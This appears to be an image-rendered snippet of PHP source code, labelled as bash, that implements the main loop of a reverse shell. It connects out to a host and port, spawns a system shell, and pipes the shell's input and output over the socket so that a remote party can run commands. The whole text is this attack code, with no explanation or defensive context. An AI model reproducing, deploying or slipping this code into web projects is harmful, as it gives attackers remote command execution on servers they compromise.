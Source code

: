```bash

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
```